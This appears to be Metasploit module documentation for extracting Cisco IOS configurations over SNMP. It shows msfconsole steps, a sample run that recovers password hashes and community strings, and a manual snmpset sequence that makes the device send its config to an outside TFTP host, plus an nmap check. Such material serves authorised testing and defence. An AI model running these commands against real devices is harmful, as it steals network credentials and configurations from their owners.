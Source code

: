 ## Vulnerable Application

  Cisco IOS devices can be configured to back-up their running and startup configurations via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  After the config has been copied, the SNMP parameters are deleted.

## Verification Steps

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_config_tftp```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```

## Options

### COMMUNITY

  The SNMP community string to use which must be read-write.  Default is `public`.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf > use auxiliary/scanner/snmp/cisco_config_tftp
msf auxiliary(scanner/snmp/cisco_config_tftp) > set community private
community => private
msf auxiliary(scanner/snmp/cisco_config_tftp) > run

[*] Starting TFTP server...
[*] Scanning for vulnerable targets...
[*] Trying to acquire configuration from 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Incoming file from 2.2.2.2 - 2.2.2.2.txt 22831 bytes
[+] 2.2.2.2:161 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
[+] 2.2.2.2:161 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
[+] 2.2.2.2:161 SNMP Community (RO): public
[+] 2.2.2.2:161 SNMP Community (RW): private
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```

### Manual Interaction
This process can also be executed manually utilizing Metasploit's TFTP server.
Cisco's [documentation](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
was utilized to create this process.

1. Start the TFTP server

```
msf > use auxiliary/server/tftp 
msf auxiliary(server/tftp) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/tftp) > 
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /tmp
[*] Uploaded files will be saved in /tmp
```

2. Execute the SNMP commands.  An integer is required to group the requests together, `666` is used in this example.

```
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.2.666 = INTEGER: 1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 

iso.3.6.1.4.1.9.9.96.1.1.1.1.3.666 = INTEGER: 4
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.4.666 = INTEGER: 1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.5.666 = IpAddress: 1.1.1.1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.6.666 = STRING: "backup_config"
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 1
```

3. At this point the config is transferring, we need to wait a few seconds.  Lastly, we'll remove `666` from the system.

```
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 6
```

4. Confirm we have our config file

```
msf auxiliary(server/tftp) > ls -lah /tmp/backup_config
[*] exec: ls -lah /tmp/backup_config

-rw-r--r-- 1 root root 23K Oct 11 22:20 /tmp/backup_config
```

## Confirming using NMAP

Utilizing the [snmp-ios-config](https://nmap.org/nsedoc/scripts/snmp-ios-config.html) script

```
nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:private 192.168.2.239
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-11 22:30 EDT
Nmap scan report for 192.168.2.239
Host is up (0.0034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-ios-config: 
| !
| ! Last configuration change at 18:01:46 PST Fri Jan 7 2000 by cisco
| ! NVRAM config last updated at 06:07:55 PST Tue Jan 4 2000 by cisco
| !
| version 12.4
| parser config cache interface
| no service pad
| service timestamps debug datetime msec
| service timestamps log datetime msec
| no service password-encryption
| service internal
| service compress-config
| service sequence-numbers
| !
| hostname UC520
...sip...
```
